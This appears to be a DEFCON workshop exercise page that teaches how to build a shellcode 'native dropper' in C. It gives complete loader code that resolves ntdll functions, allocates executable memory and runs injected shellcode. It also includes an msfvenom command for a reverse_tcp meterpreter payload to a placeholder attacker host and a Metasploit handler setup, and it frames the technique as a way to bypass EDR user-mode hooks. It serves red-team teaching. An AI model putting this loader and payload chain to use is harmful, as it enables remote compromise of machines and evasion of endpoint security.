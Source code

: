 ## Exercise 3: Native Dropper
In this exercise we will make the first modification to the Win32 dropper, replacing the Windows APIs (kernel32.dll) with **native APIs** also called **native functions** (ntdll.dll). We will create a dropper based on native APIs and call it **native-dropper**.
![medium_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235372969-4d24ddec-7ee5-443e-966a-24b3d70dc3a8.png)


## Exercice 3 tasks:
1. Download the native dropper POC from the Code section of this chapter.
2. The code in the POC is partially complete. Following the instructions in this playbook, you need to finish the part where the four native functions are loaded from ntdll.dll by using ``GetProcAddress``
3. Then create x64 meterpreter shellcode, copy it into the POC and compile it.  
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the native dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected? 


## Visual Studio
You can download the POC from the code section of this chapter. In this POC, we replace the four Win32 APIs from the Win32 dropper with the corresponding native function or API.
- Memory allocation, ``VirtualAlloc`` is replaced by **``NtAllocateVirtualMemory``**.
- Write shellcode to memory, ``WriteProcessMemory`` is replaced by **``NtWriteVirtualMemory``**.
- Shellcode execution, ``CreateThread`` is replaced by **``NtCreateThreadEx``**.
- And ``WaitForSingleObject`` is replaced by **``NtWaitForSingleObject``**.

A few words about the functionality of the native dropper code. Unlike the Windows APIs, most native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. In the case of the Win32 dropper from the previous chapter, we don't need to worry about manually implementing function structures, or how to handle transitions from Win32 APIs to native APIs, etc. This is because the Windows headers like ``Windows.h`` have already implemented all the functionality and provide us with the functionality by using the Win32 APIs. If we use the native APIs directly, without the help of the Win32 APIs, it is a bit more complicated and additional code has to be used in the native dropper. The reason for this is that the Windows headers or libraries do not support the direct use of native functions, so we have to implement the required code manually. Which means to be able to use native funtions in the native dropper we have to get the memory address of each native function from ntdll.dll at runtime. 

First we need to define the function pointers for all the native functions we need. For example, ``typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);`` creates a new type ``PNTALLOCATEVIRTUALMEMORY`` which is a function pointer of type ``NTSTATUS``. In general, a function pointer is a type of pointer that points to a function instead of a data value or an array. It holds the memory address of a function, and using this pointer, we can call the function. This part is already fully implemented in the Native Dropper POC.
<details>
    
 ```
// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
 ```
</details>
 
The second step is to get the memory address of each native function from ntdll.dll at runtime. So we use ``GetModuleHandleA`` to open a handle to ntdll.dll in memory. Then we pass the handle and the name e.g. ``NtAllocateVirtualMemory`` to ``GetProcAddress`` to get a pointer to the native function e.g. ``NtAllocateVirtualMemory`` in ntdll.dll. Next we cast this function pointer to the type ``PNTALLOCATEVIRTUALMEMORY`` and assign or store the resulting function pointer to the corresponding variable, e.g. ``NtAllocateVirtualMemory``. In simple words, ``NtAllocateVirtualMemory`` is declared as a function pointer of type ``PNTALLOCATEVIRTUALMEMORY`` and it holds the memory address of the ``NtAllocateVirtualMemory`` function as it is loaded into the current process from ntdll.dll. So when we call NtAllocateVirtualMemory in the native dropper code, we are actually calling the function from ntdll.dll at the memory address stored in the NtAllocateVirtualMemory function pointer. This **code part is not finished** and **must be completed by the workshop attendee**. In the native dropper POC you will see, that the code for the native function ``NtAllocateVirtualMemory`` is already written and based on that schema you have to complete it for the other three native functions ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.
<details>
    
```
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
// or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");    
```    
     
</details>    

<details>
    <summary>Solution</summary>
If it was at this time not possible for you to complete the code for the three missing native functions, you can use the following code and copy it into the Native Dropper POC. 

```
// Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
```        

</details>
    
Shellcode declaration same as before in the Win32 Dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
     
Here is the **complete code**, but you can also find it already implemented in the code POC of this chapter.
<details>
    
```
#include <stdio.h>
#include <windows.h>

// Define typedefs for function pointers to the native API functions we'll be using.
// These match the function signatures of the respective functions.
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);

int main() {
    // This is placeholder shellcode. In a real use case, this would be replaced with actual shellcode
    // that you want to inject and execute. The shellcode is stored as an array of unsigned characters.
    unsigned char code[] = "\xfc\x48\x83";

    // Here we load the native API functions from ntdll.dll using GetProcAddress, which retrieves the address of an exported function
    // or variable from the specified dynamic-link library (DLL). The return value is then cast to the appropriate function pointer typedef.
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");

    // Allocate a region of virtual memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode.
    // NtAllocateVirtualMemory is a function that reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process.
    // 'exec' will hold the base address of the allocated memory region.
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region.
    // NtWriteVirtualMemory is a function that writes into the virtual address space of a specified process.
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread.
    // NtCreateThreadEx is a function that creates a new thread for a process.
    // The new thread starts execution by calling the function at the start address specified in the lpStartAddress parameter. 
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the thread to finish executing.
    // NtWaitForSingleObject is a function that waits until the specified object is in the signaled state or the time-out interval elapses.
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 to indicate successful execution of the program.
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the Medium-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our Medium-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled Medium-Level-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Native Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports medium_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the High-Level-Dropper, you can see that the medium-level dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

     
     
## Native Dropper analysis: x64dbg
The first step is to run your native dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the native dropper directly in x64dbg you need to run the assembly first.
     
     
<details>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/be7fcea9-cac7-4aa6-8e59-d7170e63a1d5">     
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls are used in the Native dropper. What results do you expect?
     
<details>
    <summary>Solution</summary>
Checking the imported symbols in our Native dropper, we should see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are no longer imported from kernel32.dll. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/95b9a92e-305c-4345-b40d-3241a7092161"> 
</p>  
     
In the case of the native dropper, we want to directly access the native functions in ntdll.dll. This is because the functions in ntdll.dll are not directly available through the standard Windows API headers and libraries. They have to be dynamically loaded at runtime.
If we analyse the disassembled code of the native dropper (Follow in dissassembler), we can identify the code where for each of the four native functions ``GetModuleHandleA'' is used to open the handle to ntdll.dll, pass the handle to ``GetProcAddress'', get the memory address of the native function e.g. NtAllocateVirtualMemory and store it into the respective function pointer.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/6278205b-6e46-4bf9-a273-1aebc44d6afe">
</p>     
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/34f24524-476b-4659-b190-3d6b252262d7">
</p>

Furthermore, if we use the symbols register in x64dbg, we can identify the manually declared function pointers that are needed to use the native functions without the help of Win32 APIs from kernel32.dll.
<p align="center">
<img width="900" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d0845cdf-90d7-4200-8823-27929b1ee3bb">
</p>
</details>         
     
We also want to check, for example, for NtAllocateVirtualMemory, from which module or memory location the syscall statement, return statement or native function code is executed.
<details>
    <summary>Solution</summary>
     Because the defined function pointers only hold the memory address of the respective native function, once the memory address is called by executing the function pointer, or more precisely by executing the variable declared as a function pointer, the syscall statement, return statement, etc. must be executed from a memory location in ntdll.dll.         
</p>            
</details>     

## Summary: Native-Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via native_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR could be bypassed in context of user mode hooks in kernel32.dll
